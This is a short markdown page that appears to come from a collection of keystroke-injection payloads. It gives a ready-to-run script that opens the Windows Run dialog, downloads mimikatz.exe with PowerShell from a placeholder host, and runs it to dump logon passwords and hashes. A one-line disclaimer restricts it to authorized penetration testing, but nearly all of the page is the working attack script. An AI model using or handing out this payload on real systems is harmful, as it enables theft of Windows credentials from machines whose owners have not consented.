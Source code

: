 # Dumping Windows Password Hashes

Downloads and runs Mimikatz to dump Windows password hashes.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "Invoke-WebRequest -Uri 'http://example.com/mimikatz.exe' -OutFile 'C:\\mimikatz.exe'"
ENTER
DELAY 500
STRING C:\\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.